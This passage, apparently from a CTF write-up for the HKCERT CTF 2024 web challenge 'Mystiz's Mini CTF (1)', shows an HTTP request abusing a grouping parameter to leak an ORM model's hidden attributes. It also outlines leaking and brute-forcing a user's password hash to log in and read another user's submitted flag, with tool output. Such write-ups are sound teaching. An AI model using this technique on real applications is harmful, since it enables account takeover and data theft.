 ```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Mystiz's-Mini-CTF-(1))-[2024.11.17|16:28:50(HKT)]
└> python3 solve.py       
[*] Trying password: 520d71
[+] Found correct password: 520d71
```

Nice! Let's login as `player` with that password!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2024/images/Pasted%20image%2020241117163311.png)

After that, we can use the same logic to leak the submitted flag in the `Attempt` model:

```python
class Attempt(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    challenge_id = db.Column(db.ForeignKey('challenge.id'), nullable=False)
    user_id = db.Column(db.ForeignKey('user.id'), nullable=False)
    flag = db.Column(db.String, nullable=False)
    is_correct = db.Column(db.Boolean, nullable=False)
    submitted_at = db.Column(db.DateTime, nullable=False)
```

```http
GET /api/attempts/?group=flag HTTP/1.1
Host: localhost:5000
Cookie: session=.eJwdzjkOwjAQAMC_uKawN97DfCbaU9AmUCH-TkQz9XzaXkeej3Z_He-8tf0Z7d5iSqFPhzGLldwXGthlcWD1oIK-UVe3JaWkzEldZED0IiYbomKmPAZjiHSe6GtTYU1EWZ5kHhYIzGCb5iTrwZ6-yA3A2xV5n3n8N_D9AaPmL_w.ZzmqTQ.0Z8KDr2IXGEMIfrdwq4jWs8x3Io


```

Response data:

```json
{"attempts":{"hkcert24{this_is_a_test_flag_1}":[{"challenge_id":1,"id":1,"is_correct":true,"user_id":2}]}}
```

We got the flag locally! Let's write a Python solve script to get the real flag on the remote instance!

**Steps:**
1. Register a new account
2. Leak `player`'s password hash via sending a GET request to `/api/me/?group=password`
3. Brute force `player`'s password hash in offline
4. Login as `player` with the cracked password
5. Get the flag via sending a GET request to `/api/attempts/?group=flag`

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Mystiz's-Mini-CTF-(1))-[2024.11.17|16:45:41(HKT)]
└> python3 solve.py       
[+] Password hash: 77364c85.744c75c952ef0b49cdf77383a030795ff27ad54f20af8c71e6e9d705e5abfb94
[*] Trying password: 7df71e
[+] Found correct password: 7df71e
[+] Flag: hkcert24{y0u_c4n_9r0up_unsp3c1f13d_4t7r1bu73s_fr0m_th3_4tt3mp7_m0d3l}
```

- **Flag: `hkcert24{y0u_c4n_9r0up_unsp3c1f13d_4t7r1bu73s_fr0m_th3_4tt3mp7_m0d3l}`**

## Conclusion

What we've learned:

1. Leaking ORM model attributes